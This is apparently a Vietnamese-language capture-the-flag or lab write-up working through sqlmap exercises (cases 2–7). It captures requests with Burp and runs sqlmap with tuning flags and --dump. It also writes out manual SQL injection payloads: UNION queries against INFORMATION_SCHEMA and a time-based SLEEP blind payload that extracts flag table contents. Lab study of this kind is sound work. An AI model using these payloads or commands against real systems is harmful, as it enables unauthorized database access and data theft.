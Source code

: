 <h1>Running SQLMap on an HTTP Request</h1>

![image](https://github.com/user-attachments/assets/f7e4c7f3-c852-47df-afe8-caccbe23cbe6)

![image](https://github.com/user-attachments/assets/581a802c-657d-48ff-8332-b769a30ccd68)

Giao diện web khi tôi truy cập vào:

![image](https://github.com/user-attachments/assets/cb955abc-53d3-4025-8739-cc46f61a99cb)

Bắt đầu với case2:

![image](https://github.com/user-attachments/assets/fc062b3f-0301-4010-952f-5f3bb8072ed3)

Sau khi submit id=1 thì ra cái này:

![image](https://github.com/user-attachments/assets/6029ae27-e0ae-4d36-a79e-92e63ab32a09)

Tôi dùng burp bắt request lại và đưa vào file req.txt:

![image](https://github.com/user-attachments/assets/ae7e65e6-41f7-469c-9fb9-aab0779138b2)

Rồi tôi chạy `sqlmap -r req.txt`:

![image](https://github.com/user-attachments/assets/826c2b9c-64a5-41b1-8f43-4a5d9fb20182)

![image](https://github.com/user-attachments/assets/3b183864-9dac-4c31-87d5-13e6ea3ba2f9)

Và kết quả nhận lại 3 loại sqli, tôi tin chọn dùng UNION query cho nhanh, đầu tiên là thử payload `1 UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9 -- -` để check thử:

![image](https://github.com/user-attachments/assets/8a9c8389-b0d0-4696-81ba-fa7d49d658b8)

Thấy chạy ổn ổn thì tôi sẽ xem thử trong bảng flag2 có những cột nào bằng payload `1 UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6,7,8,9 from INFORMATION_SCHEMA.COLUMNS where table_name='flag2'-- -`:

![image](https://github.com/user-attachments/assets/acf11b04-e543-4808-855e-39e5363e8455)

Nhìn vào tôi thấy được bảng flag2 thuộc testdb và gồm có 2 cột là id và content, dùng `1 UNION select 1, id, content, 4,5,6,7,8,9 from flag2-- -` để lấy content và id và flag2:

![image](https://github.com/user-attachments/assets/6757d16b-2421-44aa-8bec-805539cbbebf)

Đối với case3 thì cái id lại nằm trong cookie nên sqlmap không nhận ra được:

![image](https://github.com/user-attachments/assets/6c154c94-0ab1-4e66-a51d-332ad23c911d)

![image](https://github.com/user-attachments/assets/1a0f69dd-f446-4f97-8f02-4b371a1b010e)

Và sqlmap cũng bảo thêm cái --crawl vào nên tôi chạy lệnh `sqlmap -r req.txt --crawl=2 --batch` và kết quả đây:

![image](https://github.com/user-attachments/assets/e2dbdba7-48a0-4de8-8596-720663d37f13)

Lại như trước thôi:

![image](https://github.com/user-attachments/assets/4e470eec-07b9-4553-82c1-32d749ad30ef)

![image](https://github.com/user-attachments/assets/b6ae55c7-47ff-49f3-9d94-0b70f9371421)

case4 thì có id nằm trong json, dù thế thì vẫn như cũ thôi:

![image](https://github.com/user-attachments/assets/04b09f8e-4b57-4350-81e1-d6299cbb4e62)

![image](https://github.com/user-attachments/assets/4299aa7b-9871-4671-9796-0aa6436b29e5)

![image](https://github.com/user-attachments/assets/8908b8dc-ab87-4208-8612-e49629c71936)

<h1>Attack Tuning</h1>

![image](https://github.com/user-attachments/assets/6ff11b59-8e34-4209-9ca2-1bd14fcc0412)

TIếp tục với các case tiếp theo, case số 5:

![image](https://github.com/user-attachments/assets/3ccfda26-0af9-466f-90e3-ce86c69813c9)

![image](https://github.com/user-attachments/assets/8efe7a43-d862-45d6-a721-e41a805f27fb)

Method là GET, lúc đầu sqlmap chạy không ra, tôi thêm --level và --risk cho chắc cú `sqlmap -r req.txt --batch --level=5 --risk=3` và đây là kết quả, 1 boolean và 1 blind:

![image](https://github.com/user-attachments/assets/fe03fe49-79c9-46b0-852d-e1ff796e67d5)

Tôi quyết định dùng payload này `id=1 OR (SELECT 1 FROM (SELECT CASE WHEN (SUBSTRING((SELECT content FROM flag5 LIMIT 1), 1, 1)='a') THEN SLEEP(10) ELSE 0 END)aFuZ)` và dùng python để chạy payload:

![image](https://github.com/user-attachments/assets/6010df7c-6de7-4773-80a6-1c48378fdcb6)

![image](https://github.com/user-attachments/assets/2f9f1896-8868-4bd9-94a2-a2fef8f0ee82)

Cay

![image](https://github.com/user-attachments/assets/88e4777d-fc2c-42a6-b062-b8848b7466f8)

Dùng `sqlmap -r req.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='``)'` thêm cái --dump để ra luôn kết quả:

![image](https://github.com/user-attachments/assets/1dd466eb-2600-4591-a7e2-a2ff51a589b4)

![image](https://github.com/user-attachments/assets/737f3a14-1e42-4029-b931-2dcdb7cfc85d)

Nếu chạy không có --dump thì ra các loại sqli:

![image](https://github.com/user-attachments/assets/f230fb5d-6178-4c1c-8126-cb1363c690a5)

Tiếp theo là case7:

![image](https://github.com/user-attachments/assets/c727ed49-ae41-4577-85f4-47f8afc999c0)

![image](https://github.com/user-attachments/assets/bba9e7d1-a381-4c97-ad3f-a1b62375bdd1)

Lâu điênnn, à có thể dùng lệnh `sqlmap -r req.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL` cho chạy nhanh hơn!


